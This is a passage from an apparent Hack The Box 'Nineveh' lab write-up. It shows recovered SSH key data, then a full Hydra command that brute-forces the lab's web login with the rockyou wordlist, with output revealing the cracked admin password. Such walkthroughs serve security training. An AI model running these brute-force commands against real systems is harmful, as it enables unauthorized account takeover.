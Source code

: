 ```bash
00000000620
13126060277
014541
ustar  
www-data
www-data
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSk
h5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS
6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqls
mS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/
CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC
9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo
4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```

There is a username (`amrois@nineveh.htb`), SSH key and directories and files (`secret/` , `secret/nineveh.priv`, `secret/nineveh.pub`)

This may be used later, because the SSH port is not open.

# Exploitation

---

## Brute Force Admin Password

---

For this section, I use Hydra:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form 
'/department/login.php:username=admin&password=^PASS^:Invalid Password!' 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-19 18:43:18
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=
admin&password=^PASS^:Invalid Password!
[STATUS] 2550.00 tries/min, 2550 tries in 00:01h, 14341850 to do in 93:45h, 16 active
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-19 18:45:08
```

So the password is `1q2w3e4r5t`. In the Notes section, I found this message:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```
